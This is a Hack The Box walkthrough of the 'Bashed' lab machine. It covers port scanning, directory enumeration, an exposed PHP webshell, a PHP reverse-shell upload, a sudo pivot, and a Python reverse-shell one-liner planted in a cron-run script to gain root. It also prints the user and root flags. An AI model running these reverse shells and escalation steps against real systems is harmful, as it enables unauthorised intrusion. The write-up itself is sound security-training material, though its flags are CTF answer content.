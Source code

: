 ```yaml
---
title: HTB-Bashed
date: "2020-04-29"
description: easy box on HTB with webserver and python vuln
tldr: box takeover with webshell and python
tags: [linux,webshell,python,htb]
---
```


## Information Gathering

IP address: `10.10.10.68`


## Scanning

```shell
$ nmap -sC -sV -oA nmap/bashed -p- -Pn -T4 10.10.10.68  
  
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-04-29 21:23 CEST  
Nmap scan report for 10.10.10.68  
Host is up (0.031s latency).  
Not shown: 65534 closed ports  
PORT STATE SERVICE VERSION  
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Arrexel's Development Site  
  
Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 22.68 seconds
```


| Open ports |
|-------------|
| 80 |

## Enumeration 
A webpage was presented on port: `80` 
![htb-bashed-1](/img/htb-bashed-1.png)


### Gobuster
Some interesting folders were found with gobuster.

```shell
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://10.10.10.68](http://10.10.10.68)

===============================================================  
Gobuster v3.0.1  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)  
===============================================================  
[+] Url: [http://10.10.10.68](http://10.10.10.68)  
[+] Threads: 10  
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
[+] Status codes: 200,204,301,302,307,401,403  
[+] User Agent: gobuster/3.0.1  
[+] Timeout: 10s  
===============================================================  
2020/04/29 21:29:43 Starting gobuster  
===============================================================  
/images (Status: 301)  
/uploads (Status: 301)  
/php (Status: 301)  
/css (Status: 301)  
/dev (Status: 301)  
/js (Status: 301)  
/fonts (Status: 301)  
/server-status (Status: 403)  
===============================================================  
2020/04/29 21:40:54 Finished  
===============================================================
```

under the `/dev` folder there's a file called `phpbash.php` which is a webshell that we can use to our benefit.

Visit the webshell and see if we can get the contents of `user.txt`

```shell
www-data@bashed:/home/arrexel# cat user.txt  
2c281f318555dbc1b856957c7147bfc1
```

in order to get a reverse shell instead, lets set up a php-reverse shell.

```shell
kryssar@kali:/var/www/html$ sudo cp /usr/share/webshells/php/php-reverse-shell.php .  
mv php-reverse-shell.php phprev.php
```

Change the IP and necessary information to connect back to Kali on port 9443, then download the file (presented via apache/python on port 80) to the victim. 

![htb-bashed-2](/img/htb-bashed-2.png)

There were some issues with uploading it as `PHP` so instead upload it as `.txt` and then rename it on the target. Once it's renamed , try visiting the webpage from our Kali machine and see if the code executes more properly. 

```shell
kryssar@kali:/media/sf_PENTEST/HTB/bashed$ nc -nlvp 1234  
Ncat: Version 7.80 ( [https://nmap.org/ncat](https://nmap.org/ncat) )  
Ncat: Listening on :::1234  
Ncat: Listening on 0.0.0.0:1234  
Ncat: Connection from 10.10.10.68.  
Ncat: Connection from 10.10.10.68:37476.  
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux  
13:36:58 up 1:11, 0 users, load average: 0.00, 0.00, 0.00  
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
/bin/sh: 0: can't access tty; job control turned off  
$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
$
```

Upgrade the shell so we get a proper prompt and some better handling.
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Once the shell is upgraded, it's time to check out the permissions on this ride.

```shell
www-data@bashed:/$ sudo -l  
Matching Defaults entries for www-data on bashed:  
env_reset, mail_badpass,  
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

It looks like we can run anything as the `scriptmananger` user, so lets try to use those permissions to our advantage. Perhaps send back a reverse shell ? 

under a folder called `scripts` there's an interesting file called `test.py` with the contents: 

```shell
scriptmanager@bashed:/scripts$ cat test.py  
f = open("test.txt", "w")  
f.write("testing 123!")  
f.close
```

Perhaps this file is run by the server every now and then ? lets use a trick from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to run a python reverse shell. 

```shell
echo -n "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);" > test.py
```

Observe! character escaping is important (it was a source of some headache.)

once the test.py runs (it's on a timer and runs every minute, as long as there's a listener on our kali machine, the reverse shell will be sent out.)

```shell
Ncat: Version 7.80 ( [https://nmap.org/ncat](https://nmap.org/ncat) )  
Ncat: Listening on :::1235  
Ncat: Listening on 0.0.0.0:1235  
Ncat: Connection from 10.10.10.68.  
Ncat: Connection from 10.10.10.68:48516.  
bash: cannot set terminal process group (17527): Inappropriate ioctl for device  
bash: no job control in this shell  
root@bashed:/scripts# cd ~ && cat root.txt
cc4f0afe3a1026d402ba10329674a8e2
```


## EOF 
